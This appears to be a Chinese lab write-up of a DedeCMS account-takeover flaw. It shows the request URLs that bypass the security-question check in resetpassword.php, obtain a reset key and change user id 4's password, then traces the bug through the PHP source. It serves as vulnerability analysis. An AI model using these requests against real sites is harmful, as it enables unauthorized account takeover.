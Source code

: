 payload:

```
10.10.10.143/Dedecms/member/resetpassword.php?dopost=safequestion&safequestion=0.0&safeanswer=&id=4
```

burpsuite抓服务器的响应：

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220406161751.png)

可以看到服务器为我们返回了```key=swHO1E2V```

访问：http://10.10.10.143/Dedecms/member/resetpassword.php?dopost=getpasswd&id=4&key=swHO1E2V

就可以修改密码了



#### 漏洞分析

漏洞出现的文件：Dedecms/member/resetpassword.php:75

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220406170452.png)

```php
if($row['safequestion'] == $safequestion && $row['safeanswer'] == $safeanswer)
{
    sn($mid, $row['userid'], $row['email'], 'N');
    exit();
}
```

如果safequestion和safeanswer都匹配正确，则进入sn()函数

我们继续跟踪sn()

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220406170814.png)

```php
if(!is_array($row))
    {
        //发送新邮件；
        newmail($mid,$userid,$mailto,'INSERT',$send);
    }
```



直接进入newmail()函数，继续跟踪：

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220406171420.png)

```php
elseif($send == 'N')
            {
                return ShowMsg('稍后跳转到修改页', $cfg_basehost.$cfg_memberurl."/resetpassword.php?dopost=getpasswd&amp;id=".$mid."&amp;key=".$randval);
            }
```



默认的```$send```参数为N，所以会直跳转给出\$key，不需要邮箱验证

得到\$key以后，传入dopost=getpasswd,并传入key值和用户id即可成功修改密码

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220406171734.png)

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220406171706.png)



